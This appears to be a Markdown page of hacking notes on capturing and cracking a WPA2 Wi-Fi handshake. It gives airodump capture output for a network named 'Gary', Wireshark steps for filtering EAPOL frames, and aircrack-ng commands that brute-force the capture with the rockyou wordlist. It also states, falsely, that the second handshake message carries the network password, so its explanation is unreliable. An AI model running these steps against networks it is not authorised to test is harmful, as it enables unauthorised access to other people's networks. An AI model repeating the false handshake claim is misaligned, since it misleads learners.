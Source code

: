 
```txt
 CH  6 ][ Elapsed: 54 s ][ 2022-04-15 16:38 ][ WPA handshake: THIS IS OUR GOAL]               
                                                                                                
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID            
                                                                                                
XX:XX:XX:XX:XX:XX   -79   0      219      502    0   6  130   WPA2 CCMP   PSK  Gary          
                                                                                                
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes              
                                                                                                
 XX:XX:XX:XX:XX:XX  A4:EA:1A:BA:BA:CA  -79    1e- 1e     0      462  EAPOL  Gary             
 XX:XX:XX:XX:XX:XX  FA:A3:A3:AG:AA:A9  -80    0 - 6e     0       26     
 ```

**Theory**

 Open the wireshark GaryDump-01.cap  
 filter by "eapol"  
  
 ```txt
 Info
(Message 1 of 4)
(Message 2 of 4) <--
(Message 3 of 4)
(Message 4 of 4)
 ```
 Those packets are the 4 way WPA handshake  

 Message 2 of 4 shows us the WPA Key Data which is the password sent by the auto-connecting phone to the router.

 ```txt
 Packet=[Source:Phone Destination:Router Protocol:EAPOL INFO:(Message 2 of 4)]
 
 Frame 8086: ...
 IEEE 802.11 ...
 Logical-Link Control...
 802.1X Authentication
    Version: 802.1X-2001
    Type: Key (3)
    Length: 117
    Key Descriptor Type: EAPOL RSN Key (2)
    ...
    WPA Key Data: 91390283108123981298
```

**Bruteforcing**

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz 
aircrack-ng GaryDump-01.cap -w /usr/share/wordlists/rockyou.txt 
```

Aside: You can check if your own password is in the rockyou list with `grep -i "mypass" /usr/share/wordlists/rockyou.txt`

# WPS push button atk
